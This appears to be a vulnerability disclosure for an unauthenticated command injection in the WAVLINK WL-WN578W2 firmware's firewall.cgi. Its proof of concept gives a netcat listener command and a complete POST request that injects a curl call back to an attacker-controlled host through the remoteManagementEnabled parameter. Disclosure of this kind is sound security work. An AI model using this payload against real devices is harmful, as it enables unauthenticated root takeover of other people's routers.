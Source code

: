 # WAVLINK WL-WN578W2 M78W2\_V221110 Unauthenticated Command Injection (firewall.cgi)

PS:



1.  QEMU simulation is difficult; use a physical WAVLINK WL-WN578W2 for testing.

2.  **No authentication required**: Attackers can exploit the vulnerability directly without login credentials, significantly increasing risk.

## Overview

A critical unauthenticated command injection vulnerability exists in `/cgi-bin/firewall.cgi` of WAVLINK WL-WN578W2 (firmware M78W2\_V221110). The endpoint lacks authentication checks, and the `pingFrmWANFilterEnabled`，`blockSynFloodEnabled`，`blockPortScanEnabled`，`remoteManagementEnabled` parameter (processed in the `sub_401C5C` function, which handles firewall-related logic) is not sanitized. Unauthenticated attackers can send POST requests with injected commands to take full control of the device.



![Vulnerability Overview: Unauthenticated Flow](./imgs/1.png)

## Details



*   **Vendor**: WAVLINK

*   **Vendor Website**: https://www.wavlink.com/zh_cn/index.html
*   **Product**: WAVLINK WL-WN578W2 (wireless range extender)

*   **Firmware**: M78W2_V221110

*   **Firmware Download**: https://docs.wavlink.xyz/Firmware/fm-578w2/

*   **Affected Endpoint**: `/cgi-bin/firewall.cgi` (POST method)

*   **Vulnerable Code**: `ftext` function (no authentication check) & `sub_401C5C` function (unsanitized parameter processing)

*   **Vulnerability Type**: Unauthenticated Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary `root` commands without login (e.g., exfiltrate sensitive data, plant persistent backdoors, tamper with device configurations)

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Technical Analysis

The vulnerability arises from two critical flaws in the firmware logic:




In the `sub_401C5C` function, the `pingFrmWANFilterEnabled`，`blockSynFloodEnabled`，`blockPortScanEnabled`，`remoteManagementEnabled` parameter (extracted from the request via the `sub_403654` function) is directly concatenated into a system command string (calling the `winstar_firewall.sh` script) without filtering special characters (e.g., `;`, `&&`). The concatenated command is then executed via the system execution function, enabling attackers to inject arbitrary commands through the `remoteManagementEnabled` parameter.



![Code Snippet](./imgs/2.png)
![Code Snippet](./imgs/3.png)

## Proof of Concept (PoC)

### PoC: Unauthenticated `curl` Command Injection

No authentication cookies or headers are required; the vulnerability can be verified using a Netcat listener.

#### 1. Start Netcat Listener (Attacker Machine)

On the attacker-controlled machine (e.g., IP address `192.168.10.154`), run the Netcat listener command to capture requests sent from the target device: `nc -lvnp 1234`.


#### 2. Send Unauthenticated POST Request

Send the following POST request to the target router (no login or authentication information is included):



```
POST /cgi-bin/firewall.cgi HTTP/1.1
Host: wifi.wavlink.com
Content-Length: 156
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Content-Type: text/plain;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: */\*
Origin: http://wifi.wavlink.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://wifi.wavlink.com/man_security.shtml
Accept-Encoding: gzip, deflate
Connection: close

firewall=websSysFirewall&remoteManagementEnabled=0;curl http://192.168.10.154:1234#&pingFrmWANFilterEnabled=0&blockPortScanEnabled=0&blockSynFloodEnabled=0
```



![ Success](./imgs/4.png)

